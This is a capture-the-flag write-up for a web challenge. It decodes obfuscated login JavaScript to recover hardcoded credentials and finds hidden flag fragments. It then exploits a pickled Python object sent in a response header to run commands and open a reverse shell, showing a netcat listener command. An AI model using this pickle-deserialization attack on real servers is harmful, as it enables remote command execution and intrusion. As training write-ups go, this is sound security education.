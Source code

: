 # Challenge description

http://chall.ehax.tech:8008/

# Soluce

## First step

When you fetch the main page, you get the following script:

```js
!+[]+[+!+[]]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]

...
```

You can decode it with the site: https://enkhee-osiris.github.io/Decoder-JSFuck/

Which gives us:

```js
const _0x3645b3=_0x4842;function _0x4842(_0x19d358,_0x49968c){const _0x2ad82b=_0x2ad8();return _0x4842=function(_0x484299,_0x4da982){_0x484299=_0x484299-0x1f1;let _0x4c8636=_0x2ad82b[_0x484299];return _0x4c8636;},_0x4842(_0x19d358,_0x49968c);}(function(_0x4ff4ae,_0x561f72){const _0x2b38fa=_0x4842,_0x2d072e=_0x4ff4ae();while(!![]){try{const _0x20be76=parseInt(_0x2b38fa(0x1f5))/0x1+-parseInt(_0x2b38fa(0x206))/0x2*(parseInt(_0x2b38fa(0x205))/0x3)+parseInt(_0x2b38fa(0x202))/0x4+-parseInt(_0x2b38fa(0x1ff))/0x5+-parseInt(_0x2b38fa(0x1fd))/0x6*(parseInt(_0x2b38fa(0x201))/0x7)+-parseInt(_0x2b38fa(0x1f2))/0x8+parseInt(_0x2b38fa(0x1fa))/0x9*(parseInt(_0x2b38fa(0x1f9))/0xa);if(_0x20be76===_0x561f72)break;else _0x2d072e['push'](_0x2d072e['shift']());}catch(_0x1a16c9){_0x2d072e['push'](_0x2d072e['shift']());}}}(_0x2ad8,0xbdbb4));const form=document[_0x3645b3(0x1fe)](_0x3645b3(0x200));async function submitForm(_0x361a11){const _0xbae53f=_0x3645b3,_0x261004=await fetch(_0xbae53f(0x203),{'method':'POST','body':JSON[_0xbae53f(0x208)](_0x361a11),'headers':{'Content-Type':_0xbae53f(0x1f4)}});window[_0xbae53f(0x1f7)]='/welcome.png';}form[_0x3645b3(0x1f8)](_0x3645b3(0x1f6),_0x3f6721=>{const _0x43e2d2=_0x3645b3;_0x3f6721[_0x43e2d2(0x1f1)]();const _0x451641=document[_0x43e2d2(0x204)](_0x43e2d2(0x1fc)),_0x12fab0=document['getElementById'](_0x43e2d2(0x207));_0x451641[_0x43e2d2(0x1fb)]=='dreky'&&_0x12fab0['value']=='ohyeahboiiiahhuhh'?submitForm({'user':_0x451641['value'],'pass':_0x12fab0[_0x43e2d2(0x1fb)]}):alert(_0x43e2d2(0x1f3));});function _0x2ad8(){const _0x5aa71f=['2115056nOLZur','Invalid\x20username\x20or\x20password','application/json','206204rQEQbe','submit','location','addEventListener','4252550HZZkfV','18etmbIj','value','username','43194hBWQRV','querySelector','5935145KtOSgP','.login-form','238aTVShg','6015272rbWZkU','/login','getElementById','15cVIXSQ','34886FmgdQH','password','stringify','preventDefault'];_0x2ad8=function(){return _0x5aa71f;};return _0x2ad8();}
```

We see that

user --> dreky

password --> ohyeahboiiiahhuhh

Once logged in, we get the following page:

```html
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.21
Date: Sun, 16 Feb 2025 09:49:23 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1714
Connection: close

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Dark Theme Login Form</title>
    <link rel="stylesheet" href="/part1_styles.css">
    <style>
        body {
            font-family: Arial, sans-serif;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            margin: 0;
            background-color: #121212;
            color: #ffffff;
        }

        .login-form {
            background: #1e1e1e;
            padding: 20px;
            border-radius: 8px;
            box-shadow: 0 4px 6px rgba(0, 0, 0, 0.7);
            width: 300px;
        }

        .login-form h2 {
            margin-bottom: 20px;
            text-align: center;
        }
    
        input {
            width: 95%;
            padding: 8px;
            border: 1px solid #444;
            border-radius: 4px;
            background-color: #292929;
            margin: 10px 0px;
            color: #ffffff;
        }

        input::placeholder {
            color: #888;
        }

        button {
            width: 100%;
            padding: 10px;
            background-color: #007bff;
            color: #ffffff;
            border: none;
            border-radius: 4px;
            cursor: pointer;
            font-weight: bold;
            margin: 10px 0px;
        }

        .form-group button:hover {
            background-color: #0056b3;
        }
    </style>
</head>

<body>
    <form class="login-form">
        <h2>Part 1 of the flag</h2>
        <br>
        <p>E4HX{oh<span hidden>_h3l1_</span></p>
    </form>
</body>

</html>
```

We can already see a hidden flag, the beginning of the flag: E4HX{oh_h3l1_

We can see that there is also a "part1_styles.css" file that we can access. 
In this file, there is this important part:

```css
.alert.success {
    background-color: #d4edda;
    color: #155724;
    secret: "/t0p_s3cr3t_p4g3_7_7";
}
```

So let's go to this famous page to see what it contains:

```html
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.21
Date: Sun, 16 Feb 2025 09:55:21 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1660
X-Serial-Token: gASVIAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAVkcmVreZSFlFKULg==
Connection: close

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>What did you get??</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            margin: 0;
            background-color: #121212;
            color: #ffffff;
        }

        .login-form {
            background: #1e1e1e;
            padding: 20px;
            border-radius: 8px;
            box-shadow: 0 4px 6px rgba(0, 0, 0, 0.7);
            width: 300px;
        }

        .login-form h2 {
            margin-bottom: 20px;
            text-align: center;
        }
    
        input {
            width: 95%;
            padding: 8px;
            border: 1px solid #444;
            border-radius: 4px;
            background-color: #292929;
            margin: 10px 0px;
            color: #ffffff;
        }

        input::placeholder {
            color: #888;
        }

        button {
            width: 100%;
            padding: 10px;
            background-color: #007bff;
            color: #ffffff;
            border: none;
            border-radius: 4px;
            cursor: pointer;
            font-weight: bold;
            margin: 10px 0px;
        }

        .form-group button:hover {
            background-color: #0056b3;
        }
    </style>
</head>

<body>
    <form class="login-form">
        <h2>Part 2</h2>
        <p>Huh you reached the part 2, nice!!!</p>

        <h1>dreky</h1>

    </form>
</body>

</html>
```
When we are sent the page, there is this header:

X-Serial-Token: gASVIAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAVkcmVreZSFlFKULg==

We can suspect that it is a serialized object in Python. When we decode it, it try to execute the following command: "dreky". We can deduce that this command is executed by default when we access the page and 

```html
<h1>dreky</h1>
```

is the output of this command.


We will try to execute an other command by changing the header with the code [here](serialize.py)

We tried this with netcat, but we got the error 

```html
<h1>32512</h1>
```

on the html page, indicating that netcat is probably not available on the remote machine. So we tried with another way, the one in the [code](serialize.py).

We execute this command to listen on the port 8008 to get a reverse shell:

```bash
nc -lvnp 8008
```

Then we execute our python script. It gives us a reverse shell. You can find the flag with the command:

```bash
cat FLAG
```
